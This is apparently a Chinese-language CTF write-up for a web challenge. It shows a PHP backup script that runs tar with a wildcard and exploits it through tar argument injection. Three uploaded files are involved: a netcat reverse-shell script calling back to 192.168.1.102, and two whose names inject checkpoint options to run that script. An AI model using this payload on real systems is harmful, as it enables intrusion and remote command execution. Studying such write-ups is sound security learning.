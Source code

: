 直接访问 4f0a5ead5aef34138fcbf8cf00029e7b 发现是一个上传备份的应用

然后发现只有backup.php才有权限读

```
$ ls -la
total 40
drwxr-xr-x  6 root root  4096 Dec 18 17:14 .
drwxr-xr-x  4 root root  4096 Dec 18 14:28 ..
-rw-r--r--  1 root root   320 Dec 18 17:14 backup.php
drwxr-xr-x  2 root root  4096 Dec 13 19:25 css
drwxr-x--- 24 flag nginx 4096 Dec 18 17:15 files
drw-r--r--  2 root root  4096 Dec 13 19:25 fonts
-rw-r--r--  1 root root  4714 Dec 16 20:17 index.html
drwxr-xr-x  2 root root  4096 Dec 13 19:25 js
-r--r-----  1 flag flag   707 Dec 18 17:13 upload.php
```

backup.php

```php
<?php
include("upload.php");
echo "上传目录：" . $upload_dir . "<br />";
$sys = "tar -czf z.tar.gz *";
chdir($upload_dir);
system($sys);
if(file_exists('z.tar.gz')){
        echo "上传目录下的所有文件备份成功!<br />";
        echo "备份文件名: z.tar.gz";
}else{
        echo "未上传文件，无法备份！";
}
?>
```

然后这里的 `tar -czf z.tar.gz *` 就是关键了，找到一篇文章

[https://blog.csdn.net/qq_27446553/article/details/80943097](https://blog.csdn.net/qq_27446553/article/details/80943097)

```shell
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

在本地建好这三个文件，然后依次上传，再进行备份，就可以弹回来flag权限的shell了

![](/img/swpuctf-2018-web-writeup/20181220091217.png)